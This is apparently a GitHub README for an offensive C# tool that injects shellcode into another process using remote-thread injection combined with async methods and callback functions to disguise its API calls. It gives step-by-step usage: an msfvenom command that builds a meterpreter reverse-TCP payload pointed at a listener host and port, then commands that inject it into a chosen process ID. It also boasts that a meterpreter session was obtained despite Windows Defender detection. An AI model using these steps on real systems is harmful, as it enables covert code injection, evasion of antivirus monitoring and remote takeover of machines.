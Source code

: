 # NativePayload_TiACBT
NativePayload_TiACBT  (Remote Thread Injection + C# Async Method + CallBack Functions Technique)
-------------
Note: These C# Codes Tested by .Net Framework 3.5 or 4.0 & 4.5 only ;) & i will Publish Article for these codes soon , in these code we have Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique CBT, in these Codes We have "CreateRemoteThread or NtCreateThreadEx" BUT the goal is Changing Code Behavior for Calling API Functions (Remote Thread Injection only), as you can see in these Pictures With API Monitor tool you can see what happened step by step. (i will publish article about this soon...)

as you can see in the Picture3, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for meterpreter BUT i had meterpreter Session  ¯\_(ツ)_/¯

--------------------------------------------
C# Codes: "New C# codes for Callback Functions will publish here soon..."
```diff
+    1. NativePayload_TiACBT.cs
+    2. NativePayload_TiACBT2.cs
```

--------------------------------------------

1. NativePayload_TiACBT.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA + EnumSystemLocalesA Native APIs)

 Note: NativePayload_TiACBT will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,CreateRemoteThread (all methods called via Async C# Method + Callback Functions ...)
 
 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT.exe [mode 1,2] [TPID] [PAYLOAD]
    example: NativePayload_TiACBT.exe 1 5930 "fc,48,00,87,00,...."
    example: NativePayload_TiACBT.exe 2 5930 "fc,48,00,87,00,...."
    

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT.png)

 -----------------------------------------------------------    
2. NativePayload_TiACBT2.cs (Remote Thread Injection + Calling Async C# Methods + Callback Functions Technique via EnumUILanguagesA Native API)

 Note: NativePayload_TiACBT2 will call APIs: OpenProcess,VirtualAllocEx,WriteProcessMemory,NtCreateThreadEx
 
 Note: in this code Method1 (OpenProcess) will call Method2 (VirtualAllocEx) & Method2 Will Call Method3 (WriteProcessMemory) & Method3 Will call Method4 (NtCreateThreadEx) and all methods called via Async C# Method + Callback Functions ...

 usage: 
    
    step1: [linux] msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f c > payload.txt
    step2: [win] NativePayload_TiACBT2.exe   [TPID] [PAYLOAD]
    example: NativePayload_TiACBT2.exe  4386 "fc,48,00,87,00,...."

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/NativePayload_TiACBT2.png)

 --------------------------------------------    
 Note: as you can see in the Picture, Code Behavior Detected by Windows Defender(update 2020/12/20) because of Payload for meterpreter BUT i had meterpreter Session  ¯\_(ツ)_/¯

   ![](https://github.com/DamonMohammadbagher/NativePayload_TiACBT/blob/main/Pics/AV.png)

 --------------------------------------------    
 <p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FDamonMohammadbgher%2FNativePayload_TiACBT"/></a></p>
